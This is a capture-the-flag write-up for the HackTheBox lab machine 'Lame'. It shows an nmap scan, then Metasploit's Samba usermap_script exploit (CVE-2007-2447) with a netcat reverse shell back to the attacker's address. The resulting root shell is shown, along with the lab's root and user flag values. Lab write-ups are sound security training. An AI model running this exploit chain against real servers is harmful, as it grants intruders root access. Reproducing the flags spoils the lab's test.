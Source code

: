 ```yaml
---
title: "HTB: LAME"
author: "v3l1d"
date: "2024-08-04"
---  
```

![](attachment/43ebccb6774d75bacfaa80b40cc8e5ce.png)
### Port Scan

```
Nmap 7.94SVN scan initiated Sat Aug 10 08:35:19 2024 as: nmap -sC -sV -A -T4 -Pn -o scan 10.10.10.3
Nmap scan report for 10.10.10.3
Host is up (0.15s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.185
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
 ```

Anonymous connection FTP but nothing there

### CVE-2007-2447

Looking online i found this vulnerability for this version of smb


```text
┌──(kali㉿kali)-[~/HTB/Lame]
└─$ msfconsole                                                                      
Metasploit tip: Use the resource command to run commands from a file
                                                  
     ,           ,
    /             \                                                                                                                 
   ((__---,,,---__))                                                                                                                
      (_) O O (_)_________                                                                                                          
         \ _ /            |\                                                                                                        
          o_o \   M S F   | \                                                                                                       
               \   _____  |  *                                                                                                      
                |||   WW|||                                                                                                         
                |||     |||                                                                                                         
                                                                                                                                    

       =[ metasploit v6.4.18-dev                          ]
+ -- --=[ 2420 exploits - 1248 auxiliary - 423 post       ]
+ -- --=[ 1465 payloads - 47 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search smb 3.0.20
[-] No results from search
msf6 > smb 3.0.20
[-] Unknown command: smb. Run the help command for more details.                                                                                                 
msf6 > search samba 3.0                                                                                                                                          
                                                                                                                                                                 
Matching Modules                                                                                                                                                 
================                                                                                                                                                 
                                                                                                                                                                 
   #   Name                                                   Disclosure Date  Rank       Check  Description                                                     
   -   ----                                                   ---------------  ----       -----  -----------
   0   exploit/multi/samba/usermap_script                     2007-05-14       excellent  No     Samba "username map script" Command Execution
   1   exploit/linux/samba/chain_reply                        2010-06-16       good       No     Samba chain_reply Memory Corruption (Linux x86)
   2     \_ target: Linux (Debian5 3.2.5-4lenny6)             .                .          .      .
   3     \_ target: Debugging Target                          .                .          .      .
   4   exploit/linux/samba/lsa_transnames_heap                2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   5     \_ target: Linux vsyscall                            .                .          .      .
   6     \_ target: Linux Heap Brute Force (Debian/Ubuntu)    .                .          .      .
   7     \_ target: Linux Heap Brute Force (Gentoo)           .                .          .      .
   8     \_ target: Linux Heap Brute Force (Mandriva)         .                .          .      .
   9     \_ target: Linux Heap Brute Force (RHEL/CentOS)      .                .          .      .
   10    \_ target: Linux Heap Brute Force (SUSE)             .                .          .      .
   11    \_ target: Linux Heap Brute Force (Slackware)        .                .          .      .
   12    \_ target: Linux Heap Brute Force (OpenWRT MIPS)     .                .          .      .
   13    \_ target: DEBUG                                     .                .          .      .
   14  exploit/osx/samba/lsa_transnames_heap                  2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   15    \_ target: Automatic                                 .                .          .      .
   16    \_ target: Mac OS X 10.4.x x86 Samba 3.0.10          .                .          .      .
   17    \_ target: Mac OS X 10.4.x PPC Samba 3.0.10          .                .          .      .
   18    \_ target: DEBUG                                     .                .          .      .
   19  exploit/solaris/samba/lsa_transnames_heap              2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   20    \_ target: Solaris 8/9/10 x86 Samba 3.0.21-3.0.24    .                .          .      .
   21    \_ target: Solaris 8/9/10 SPARC Samba 3.0.21-3.0.24  .                .          .      .
   22    \_ target: DEBUG                                     .                .          .      .


Interact with a module by name or index. For example info 22, use 22 or use exploit/solaris/samba/lsa_transnames_heap
After interacting with a module you can manually set a TARGET with set TARGET 'DEBUG'

msf6 > use exploit/multi/samba/usermap_script 
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.163.129  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/samba/usermap_script) > set LHOST 10.10.14.185
LHOST => 10.10.14.185
msf6 exploit(multi/samba/usermap_script) > set LPORT 9091
LPORT => 9091
msf6 exploit(multi/samba/usermap_script) > exploit

[-] Msf::OptionValidateError One or more options failed to validate: RHOSTS.
msf6 exploit(multi/samba/usermap_script) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > set RPORT 139
RPORT => 139
msf6 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP handler on 10.10.14.185:9091 
[*] Command shell session 1 opened (10.10.14.185:9091 -> 10.10.10.3:47888) at 2024-08-10 09:35:50 -0400

whoami
root
ls
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
initrd.img.old
lib
lost+found
media
mnt
nohup.out
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
cd /root
ls
Desktop
reset_logs.sh
root.txt
vnc.log
cat root.txt
6118f8816315bd33ecac622d179c65af
```


![](attachment/95e2ca9714b079079c673225e5a17f15.png)![](attachment/e0218db999901f943bf934f889d0edec.png)

### Flags

```

root:6118f8816315bd33ecac622d179c65af
user:15fd56e82fdefb166bfb1631b6c6360a

```